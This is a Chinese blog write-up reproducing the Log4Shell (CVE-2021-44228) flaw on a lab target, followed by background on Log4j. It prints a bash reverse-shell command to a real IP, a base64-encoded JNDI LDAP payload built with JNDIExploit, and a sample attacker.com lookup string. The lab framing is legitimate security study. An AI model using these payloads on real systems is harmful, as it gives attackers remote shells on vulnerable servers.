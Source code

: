 # Log4j漏洞复现

### 实战

<br>

log4j本身会解析JNDI。攻击者可以直接在JNDI注入代码，从而实现远程代码执行


这里我使用已经搭建好的靶场进行试验


<img src="https://54huarui.github.io/blogs/log4j/log4j0.png" width="880" height="480">

这里写了个反弹shell的playload
命令:
````
bash -i >& /dev/tcp/106.53.39.247/23172 0>&1
````

采用JDNI注入脚本
JNDIExploit-1.2-SNAPSHOT.jar

需要进行base64加密

<img src="https://54huarui.github.io/blogs/log4j/log4j1.png" width="880" height="480">

在服务器终端上开启恶意代码的端口

<img src="https://54huarui.github.io/blogs/log4j/log4j2.png" width="880" height="480">

另一个终端上开启监听

<img src="https://54huarui.github.io/blogs/log4j/log4j3.png" width="880" height="480">

构造出我们的playload
````
${jndi:ldap://106.53.39.247:1389/Basic/Command/Base64/c2ggLWkgPiYgL2Rldi90Y3AvMTA2LjUzLjM5LjI0Ny8yMzE3MiAwPiYx}
````

即可完成反弹shell

<img src="https://54huarui.github.io/blogs/log4j/log4j4.png" width="880" height="480">

### 简介

log4j全名就是（log for java），就是apache的一个开源的日志记录组件 ，它在Java项目中使用的比较广泛。

Log4j漏洞，特别是被称为“Log4Shell”的漏洞（CVE-2021-44228），是一个严重的安全漏洞，出现在Apache Log4j 2这个广泛使用的Java日志库中。该漏洞于2021年12月被公开披露，并迅速成为全球网络安全的重大威胁。

Log4Shell允许攻击者通过特制的日志消息来远程执行代码（RCE）。该漏洞的核心问题在于Log4j 2的某些版本会在日志消息中解析JNDI（Java Naming and Directory Interface）查找语法，这使得攻击者可以通过在日志消息中注入恶意的JNDI查找请求来执行任意代码。例如，攻击者可以在一个普通的日志消息中包含类似${jndi:ldap://attacker.com/a}的字符串，Log4j 2会解析并执行这个请求，导致远程代码执行。